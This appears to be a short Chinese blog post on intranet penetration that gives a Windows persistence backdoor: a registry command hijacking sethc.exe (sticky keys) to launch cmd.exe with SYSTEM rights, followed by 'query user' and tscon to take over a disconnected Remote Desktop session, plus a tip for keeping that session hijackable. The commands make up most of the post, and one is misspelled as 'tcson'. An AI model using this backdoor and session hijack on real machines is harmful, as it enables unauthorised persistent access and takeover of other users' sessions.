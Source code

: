 ```yaml
---
title: "Mstsc tscon 后门"
date: 2018-07-11T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['persistence']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


**System 权限**

`nt authority\system`

shift 注册表劫持.

<!--more-->

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

`query user` 查看 ID.

```
USERNAME        SESSIONNAME     ID  STATE  IDLE TIME   LOGON TIME
administrator   rdp-tcp#1        1  Disc       none    6/30/2018 10:00
```

输入命令 `tcson 1`

*注意关闭远程桌面的时候不要点注销, 而是直接点右上角的X, 这样下次连接的时候还能进行切换.*